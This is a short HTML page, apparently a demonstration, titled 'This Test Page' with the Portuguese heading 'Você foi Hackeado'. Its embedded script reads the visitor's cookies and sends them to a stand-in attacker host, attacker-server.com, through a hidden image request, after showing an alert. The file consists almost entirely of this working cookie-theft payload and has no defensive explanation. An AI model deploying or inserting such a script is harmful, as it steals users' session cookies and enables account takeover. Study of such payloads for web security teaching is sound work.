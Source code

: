 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>This Test Page</title>
</head>
<body>
    <h1>Você foi Hackeado</h1>
    <script>
        // Exibe um alerta para o usuário
        alert('This is a malicious script executing!');

        // Captura os cookies do usuário
        var cookies = document.cookie;

        // Envia os cookies capturados para o servidor do atacante
        var img = new Image();
        img.src = "http://attacker-server.com/steal?cookies=" + encodeURIComponent(cookies);
    </script>
</body>
</html>